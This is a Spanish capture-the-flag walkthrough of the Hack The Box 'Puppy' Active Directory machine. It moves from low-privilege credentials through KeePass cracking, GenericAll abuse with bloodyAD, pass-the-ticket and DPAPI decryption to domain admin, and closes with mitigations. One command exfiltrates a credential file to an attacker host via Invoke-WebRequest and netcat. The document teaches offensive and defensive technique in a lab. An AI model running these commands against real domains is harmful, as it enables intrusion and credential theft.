---



La máquina **Puppy** de Hack The Box simula un entorno corporativo realista, en el que el atacante comienza con un acceso inicial proporcionado por el cliente, representado por un par de credenciales válidas. Este escenario reproduce una situación común en pentests internos, donde se parte con acceso limitado a la red o a una cuenta de bajo privilegio.

Esta máquina permite practicar múltiples técnicas comunes en entornos Active Directory con acceso inicial desde un usuario de bajo privilegio. A lo largo del compromiso se utilizan:

- **Enumeración interna** con usuario autenticado.
    
- **Acceso a recursos compartidos** según pertenencia a grupos.
    
- **Extracción y crackeo de KeePass (`.kdbx`)** usando John the Ripper.
    
- **Abuso de privilegios ACL (`GenericAll`)** con `bloodyAD`.
    
- **Pass-the-Ticket (PtT)** con `getTGT.py` y `evil-winrm`.
    
- **Enumeración y movimiento lateral** mediante análisis de backups y archivos sensibles.
    
- **Abuso de DPAPI** para descifrar credenciales protegidas.
    
- **Escalada final a administrador** usando credenciales obtenidas de DPAPI.
    

Ideal para quienes quieran reforzar su comprensión de técnicas post-explotación, manipulación de tickets Kerberos, gestión de credenciales en entornos Windows y el uso práctico de herramientas como BloodHound, John, `bloodyAD`, y DPAPI extraction.



# Enumeración Inicial


Partimos con las credenciales proporcionadas por el cliente para el usuario `levi.james`, un punto de partida habitual en entornos corporativos donde se facilita una cuenta de bajo privilegio para simular una intrusión interna realista.

## Servicios Abiertos

```Bash
sudo nmap -p- --open -sSCV -Pn 10.10.11.70
```



Nos acordamos de incluir `10.10.11.70    puppy.htb dc.puppy.htb` en el `/etc/hosts`
## Usuarios

```Bash
nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --users
```


Nos creamos un listado de usuarios:

```Bash
enum4linux -U -u 'levi.james' -p 'KingofAkron2025!' puppy.htb | grep "user:" | cut -f2 -d "[" | cut -f1 -d "]" 2>/dev/null > usuarios.txt
```

## Políticas de contraseñas

```Bash
enum4linux -u 'levi.james' -p 'KingofAkron2025!' puppy.htb --pass-pol
```



## Shares

```Bash
smbmap -u 'levi.james' -p 'KingofAkron2025!' -H puppy.htb
```


Con este resultado y viendo que siendo del grupo `Developers` podríamos acceder a `DEV`, probamos suerte para ver si sería posible autoañadirnos:

```bash
net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james" -S "puppy.htb"
```

Verificamos:



Visto que tenemos ahora acceso a  `dev`, veamos que hay dentro:

```bash
smbclient -U 'levi.james' //10.10.11.70/dev
```



Como podemos observar, hay un archivo `.kdbx` que podemos descargarnos, sacar el hash y conseguir acceso realizando fuerza bruta con john.
Para esta versión de archivo `kdbx`, es necesario descargar otro binario de john. [pincha aqui](https://github.com/openwall/john.git)
Haciendo uso de este repositorio, primero necesitamos sacar el hash:
```bash
keepass2john ~/htb/puppy/recovery.kdbx > ~/htb/puppy/hash_keepass
```

para despues crackearlo con la misma versión de john:



Acceso a keepass conseguido:


# Acceso

Después de probar las diferentes opciones, solo las credenciales del usuario `Ant.edwards` son válidas.
Lo cual aprovechamos para ejecutar `Bloodhound` y poder hacernos una idea de como proseguir:

```bash
bloodhound-python -u ant.edwards -p <ant.edward passwd> -ns 10.10.11.70 -d puppy.htb -c all --zip
```

Abriendo el archivo, podemos observar que el usuario `ant.edwards` es miembro del grupo `SENIOR DEVS`, el cual tiene el privilegio inseguro `GenericAll` habilitado. Permiso del que podemos aprovecharnos para conseguir las credenciales de `adam.silver`.



Para realizar el abuso de los ACL, nos automatizamos los pasos de forma que sea más rápida la adquisición del acceso por PtT (Pass the Ticket) y no caduque ningún paso anterior necesario.

```bash
#!/bin/bash

/usr/bin/getTGT.py puppy.htb/ant.edwards:<ant.edward passwd>

export KRB5CCNAME=ant.edwards.ccache

bloodyAD --host dc.puppy.htb -d "PUPPY.HTB" --dc-ip 10.10.11.70 -k remove uac adam.silver -f ACCOUNTDISABLE 
bloodyAD --host dc.puppy.htb -d "PUPPY.HTB" --dc-ip 10.10.11.70 -k remove uac adam.silver -f DONT_REQ_PREAUTH
bloodyAD --host dc.puppy.htb -d "PUPPY.HTB" --dc-ip 10.10.11.70 -k set password adam.silver mynewpasswd

getTGT.py puppy.htb/adam.silver:mynewpasswd

export KRB5CCNAME=adam.silver.ccache

evil-winrm -i dc.puppy.htb -u adam.silver -r PUPPY.HTB
```

Para usar estos comandos y abusar de los ACL y conseguir el acceso, es necesario sincronizarse con el equipo remoto.
Normalmente, con hacer `ntpdate -s <dominio>` sirve. Pero en mi caso necesito complicarlo un poco dada mi configuración de Arch.
Creándome una función en el `.bashrc` tanto para sincronizar como para volver a nuestro estado original.




Una vez sincronizados de forma exitosa, probamos el script anterior:



Y con esto, conseguimos con éxito la `user.txt` Pero no es el final aún....


# Movimiento lateral y Escalada

Como usuario `adam.silver`, y despues de un rato enumerando, encontramos un `.zip` dentro de `C:\Backups`



nos lo descomprimimos, y después de un rato buscando, encontramos la passwd de `steph.cooper` en `C:\Backups\site-backup-2024-12-30\puppy\nms-auth-config.xml.bak`




Pedimos el TGT para ralizar un PtT(Pass the Ticket) como usuario `steph.cooper`:



Después de un rato indagando dentro y visto el nombre de la máquina, llegAMOS a la conclusión de que necesitamos Abusar de DPAPI. [ver](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets#practice)

Necesito adquirir dos archivos:

```
# credencial

C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9

y

#masterkey 

C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```

Los adquirimos usando:

```shell
# maquina de atacante

nc -lnvp 8000

# maquina objetivo

Invoke-WebRequest -Uri "http://10.10.16.48:8000/" -Method POST -InFile "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"


```





Ahora a sacar la información de dentro:

```bash
dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password '<steph.cooper pass>' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```



```bash
dpapi.py credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key <decrypted key>
```



Consiguiendo así la passwd de `steph.cooper_adm`.

Ahora, pedimos el TGT de `steph.cooper_adm`. y mediante un PtH accedemos y conseguimos la flag de administrador.



Cabe destacar que en un entorno real, se haría un dump de los secrets y sería de vital importancia conseguir persistencia.


HAPPY HACKING

---

## Mitigaciones

Para prevenir los vectores de ataque utilizados en esta máquina, se recomiendan las siguientes medidas defensivas:

### 1. **Control de acceso mínimo**

- Aplicar el principio de **menor privilegio**: evitar que usuarios estándar tengan acceso a recursos innecesarios como compartidos `DEV`.
    
- Revisar miembros de grupos sensibles como `SENIOR DEVS` y auditar permisos ACL (`GenericAll`, `WriteOwner`, etc.).
    

### 2. **Protección de credenciales**

- Evitar almacenar contraseñas en texto claro o archivos de configuración. En este caso, la contraseña de `steph.cooper` estaba expuesta en un archivo `.xml.bak`.
    
- Configurar KeePass para usar una clave maestra más robusta (combinación de contraseña + keyfile).
    
- Asegurar el uso de versiones actualizadas de KeePass y reforzar la protección del archivo `.kdbx`.
    

### 3. **Defensa contra abuso de Kerberos**

- Habilitar **logging avanzado de Kerberos** (eventos 4768, 4769, 4771, 4776).
    
- Usar cuentas con SmartCard o configuradas con `Do not require Kerberos preauthentication` **solo si es imprescindible**, ya que este atributo fue abusado.
    
- Limitar la validez de los TGTs y monitorizar su uso.
    

### 4. **Bloqueo de herramientas y técnicas conocidas**

- Detectar el uso de herramientas como `BloodHound`, `bloodyAD`, `getTGT.py` mediante EDRs y reglas de detección personalizadas.
    
- Monitorear accesos y transferencias sospechosas de archivos en rutas como `AppData\Roaming\Microsoft\Credentials` o `Protect`.
    

### 5. **Seguridad en backups**

- No almacenar contraseñas ni archivos sensibles sin cifrado en backups.
    
- Validar que los backups estén ubicados en rutas seguras y con permisos controlados.
    

### 6. **Protección de DPAPI**

- Asegurar que las **masterkeys** estén protegidas con contraseñas fuertes.
    
- Usar BitLocker o EFS para cifrar el perfil completo del usuario.
    
- Detectar accesos inusuales a rutas como `AppData\Roaming\Microsoft\Protect`.